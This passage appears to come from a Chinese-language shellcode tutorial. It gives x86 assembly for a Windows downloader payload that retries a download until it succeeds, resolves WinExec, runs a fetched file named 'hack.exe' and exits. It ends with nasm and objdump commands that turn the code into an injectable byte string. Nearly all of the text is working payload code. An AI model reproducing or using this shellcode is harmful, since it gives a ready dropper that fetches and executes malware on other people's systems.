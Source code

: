 ```asm
call eax
pop ecx
add esp, 44
xor edx, edx
cmp eax, edx
push ecx
jnz download            ; if it fails to download , retry contineusly
pop edx
```

找到`WinExec`函数的入口地址，并调用该函数运行下载的文件，最后退出程序

```asm
 Create string 'WinExec\x00' on the stack and save its address to the stack-frame
mov edx, 0x63657878     \
shr edx, 8              ; Shifts edx register to the right 8 bits
push edx                ; "\x00,cex"
push 0x456E6957         ; EniW : 456E6957
mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
call findFunctionAddr   ; After Return EAX will = &WinExec


xor ecx, ecx          ; clear eax register
push ecx              ; string terminator 0x00 for "hack.exe" string
push 0x6578652e       ; exe. : 6578652e
push 0x6B636168       ; kcah : 6B636168
mov ebx, esp          ; save pointer to "hack.exe" string in eax
inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
push ebx              ; lpcmdLine - push string address stack # 1st argument
call eax              ; Call the WinExec Function

; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
 xor ecx, ecx          ; clear eax register
 mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
 shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
 push ecx                ;  sse : 00737365
 push 0x636F7250         ; corP : 636F7250
 push 0x74697845         ; tixE : 74697845
 mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
 call findFunctionAddr   ; After Return EAX will = &ExitProcess

; Call ExitProcess(ExitCode)
 xor edx, edx
 push edx                ; ExitCode = 0
 call eax                ; ExitProcess(ExitCode)
```

将该反汇编文件通过`nasm`工具进行编译并用`objdump`工具变为可执行代码

```bash
nasm -f win32 test.asm -o test.o
for i in $(objdump -D test.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```
